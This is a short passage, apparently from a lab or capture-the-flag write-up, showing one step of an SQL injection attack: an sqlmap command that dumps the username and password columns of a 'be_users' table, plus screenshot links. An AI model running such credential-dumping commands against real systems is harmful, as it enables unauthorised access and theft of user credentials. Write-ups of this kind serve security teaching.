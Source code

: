 ![image19](../resources/aaf6c6c7d29044bc853ba56dca3bb30b.png)

- **Dump username and password columns**
  
```bash
sqlmap -r request --batch -D vn_admin -T be_users -C username,password --dump

```

![image20](../resources/281739d5dec9475eacd6f9106f6fe706.png)
